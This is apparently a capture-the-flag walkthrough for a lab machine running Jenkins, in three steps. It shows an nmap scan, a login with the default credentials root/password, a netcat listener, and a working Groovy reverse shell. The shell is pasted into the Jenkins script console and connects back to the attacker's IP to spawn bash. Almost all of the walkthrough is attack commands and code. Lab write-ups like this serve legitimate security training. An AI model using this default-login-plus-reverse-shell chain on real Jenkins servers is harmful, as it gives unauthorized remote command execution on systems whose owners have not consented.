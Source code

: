 # 1.Port Scan
ip=10.129.169.55

nmap -sC -sV $ip
![f261ce4bd8590cf9e85e6aa0f8be7f93.png](../_resources/f261ce4bd8590cf9e85e6aa0f8be7f93.png)

# 2.Jenkins Login
**http://$ip:8080**

![a436020aeb0f7a8d8ef436b5ac90e1fc.png](../_resources/a436020aeb0f7a8d8ef436b5ac90e1fc.png)

Username: root
Password: password

![98b03cc408f4ccd87fbb4bc559d13a19.png](../_resources/98b03cc408f4ccd87fbb4bc559d13a19.png)

# 3.Flag.txt get
## Receive Port

`nc -lvnp 8000`

![fd7fa5e06604091249c39592cefef93f.png](../_resources/fd7fa5e06604091249c39592cefef93f.png)

## Reverse Shell

`http://$ip/script`

```
String host="10.10.16.8";
int port=8000;
String cmd="bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![a38fa1b7df95836f07d6892f612a6074.png](../_resources/a38fa1b7df95836f07d6892f612a6074.png)

![dff551e61ac3283b6907dbc9cba25da6.png](../_resources/dff551e61ac3283b6907dbc9cba25da6.png)
